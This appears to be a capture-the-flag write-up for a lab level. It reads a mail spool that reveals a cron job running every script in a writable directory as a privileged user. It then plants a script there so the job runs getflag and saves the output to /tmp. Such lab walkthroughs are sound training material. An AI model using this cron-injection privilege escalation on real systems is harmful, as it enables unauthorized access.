 # Level 05

On connection: You have new mail.
Mail are hosted on `/var/spool/mail`.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

It's a crontab configuration who execute every two minutes the shell script `/usr/sbin/openarenaserver` as flag05. That script run scripts located in /opt/openarenaserver and remove them.

```sh
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Let's inject our own script.

```sh
$ echo "exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/inject.sh
```

And after few minutes we can read `/tmp/soluc`

```sh
$ cat /tmp/soluc
```
